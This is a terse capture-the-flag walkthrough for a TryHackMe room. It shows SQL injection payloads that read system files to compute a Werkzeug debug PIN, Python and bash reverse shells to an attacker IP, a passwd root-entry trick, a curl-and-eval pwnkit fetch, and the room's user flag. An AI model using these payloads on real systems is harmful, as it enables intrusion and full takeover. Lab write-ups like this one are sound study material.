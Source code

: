 # https://tryhackme.com/jr/surfingyetiiscomingtotown
+ What is the user flag?`THM{SQli_SsRF_2_WeRkZeuG_PiN_ExPloit}`
+ What is the root flag?
+ What is the yetikey4.txt flag?

## ENUMERATION PORT 8000
+ URL SQLInjection `http://10.10.35.168:8000/download?id=`
+ Using `sqlmap` database:
    ```
    [*] elfimages
    [*] information_schema
    [*] performance_schema
    ```
+ Dump `elfimages.elves`:
    ```
    +----+--------+------------------------------------------------+
    | id | url_id | url                                            |
    +----+--------+------------------------------------------------+
    | 1  | 1      | http://127.0.0.1:8000/static/imgs/mcblue1.svg  |
    | 2  | 2      | http://127.0.0.1:8000/static/imgs/mcblue2.svg  |
    | 3  | 3      | http://127.0.0.1:8000/static/imgs/mcblue3.svg  |
    | 4  | 4      | http://127.0.0.1:8000/static/imgs/suspects.png |
    +----+--------+------------------------------------------------+
    ```
+ current user: `mcskidy@localhost`
+ hostname: `proddb`

# EXPLOIT
+ Trying to by pass PIN for werkerzeug 3.0.0 console.
+ Looting The File using SQL Injection File Export (LFI / SSRF):
    - http://10.10.183.238:8000/download?id=' UNION ALL SELECT 'file:///proc/sys/kernel/random/boot_id
    - http://10.10.183.238:8000/download?id=' UNION ALL SELECT 'file:///sys/class/net/eth0/address `02:e7:a8:eb:9a:87`
    - http://10.10.183.238:8000/download?id=' UNION ALL SELECT 'file:///etc/machine-id `aee6189caee449718070b58132f2e4ba`

    ```bash


    $python -c "print(0x02e7a8eb9a87)" 
    3193994713735
    $python gen_machine_id.py 
    b'aee6189caee449718070b58132f2e4ba'
    $python werkzeug-debug-console-bypass/werkzeug-pin-bypass.py 
    Pin: 664-214-737
    ```

### PRIVILEGES ESCALATION
+ Python Reverse Shell 
    ```python
    python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.37.160",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
    ```
    + inject application by adding python file os.py
        - add this line to reverse shell os.py
        ```python
        #!/usr/bin/python3
        import os
        os.system('/bin/bash -c "bash -i >& /dev/tcp/10.4.37.160/1234 0>&1"')
        ```
os.system('/bin/bash -c "bash -i >& /dev/tcp/10.4.37.160/3117 0>&1"')
mcskidy@proddb:/dev/shm$ openssl passwd -1 -salt mcskidy dodol123
mcskidy:$1$mcskidy$FFrXzk8I7YLmzrU3mA9YX/:0:0::/home/mcskidy:/bin/bash
python3 -c 'import crypt;print(crypt.crypt("somesecret", crypt.mksalt(crypt.METHOD_SHA512)))'
python3 -c 'import crypt,getpass;print(crypt.crypt(getpass.getpass(), crypt.mksalt(crypt.METHOD_SHA512)))'
eval "$(curl -s http://10.4.37.160:81/CVE-2021-4034/cve-2021-4034.sh)"


python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'